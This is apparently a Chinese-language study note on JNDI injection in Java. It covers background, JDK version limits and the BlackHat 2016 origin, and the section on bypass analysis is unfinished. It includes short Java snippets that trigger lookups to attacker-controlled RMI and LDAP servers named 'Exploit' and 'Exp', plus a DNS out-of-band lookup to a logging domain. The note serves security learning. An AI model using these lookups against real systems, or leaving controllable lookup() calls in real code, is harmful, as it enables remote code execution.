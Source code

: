 # 2-邂逅各种注入

## 1. jndi注入

### 1.1 背景知识

> The **Java Naming and Directory Interface** (**JNDI**) is a Java [API](https://en.wikipedia.org/wiki/Application_programming_interface) for a [directory service](https://en.wikipedia.org/wiki/Directory_service) that allows Java software clients to discover and look up data and resources (in the form of Java [objects](https://en.wikipedia.org/wiki/Object_(computer_science))) via a name. Like all [Java](https://en.wikipedia.org/wiki/Java_(programming_language)) APIs that interface with host systems, JNDI is independent of the underlying implementation.

简单来说，JNDI 就像Java里的“电话簿”，让你可以通过名字找到各种资源（如Java对象、数据库、EJB、消息队列等）和各种目录服务如LDAP、DNS、RMI Registry等），无论它们是在本地还是远程服务器上。

这里主要记录LADP、RMI、DNS 协议的攻击。

* **版本限制** 

JDK 6u141、7u131、8u121之后：增加了`com.sun.jndi.rmi.object.trustURLCodebase`选项，默认为`false`，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：增加了`com.sun.jndi.ldap.object.trustURLCodebase`选项，默认为`false`，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

<img src="https://cdn.jsdelivr.net/gh/Rain1er/images@main/img/20200419225882.png" alt="image.png" style="zoom:50%;" />



## 1.2 利用手法

> 当开发者在定义 JNDI 接口初始化时，lookup() 方法的参数可控，攻击者就可以将恶意的 url 传入参数远程加载恶意载荷，造成注入攻击。

最初公开于BlackHat 2016（USA）

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf



### 1.2.1 利用RMI协议注入

> `Remote Method Invocation` JAVA 远程方法协议，该协议用于远程调用应用程序编程接口，使客户机上运行的程序可以调用远程服务器上的对象

```java
String uri = "rmi://127.0.0.1:1099/Exploit";    // 指定查找的对象,传入攻击者可控的RMIServer,其中包含恶意类
InitialContext initialContext = new InitialContext();// 得到初始目录环境的一个引用
initialContext.lookup(uri); // 获取指定的远程对象
```



### 1.2.2 利用LDAP协议注入

>  `Lightweight Directory Access Protocol` 轻量级目录访问协议，约定了 Client 与 Server 之间的信息交互格式、使用的端口号、认证方式等内容

```java
InitialContext initialContext = new InitialContext();
initialContext.lookup("ldap://127.0.0.1:7777/Exp");
```



### 1.2.3 利用DNS协议注入

```java
InitialContext initialContext = new InitialContext();
initialContext.lookup("dns://c17208f0.log.cdncache.rr.nu.");    // 关闭clash的tun模式
```



具体示例代码见

## 1.3 原理分析 & 高版本的绕过

todo

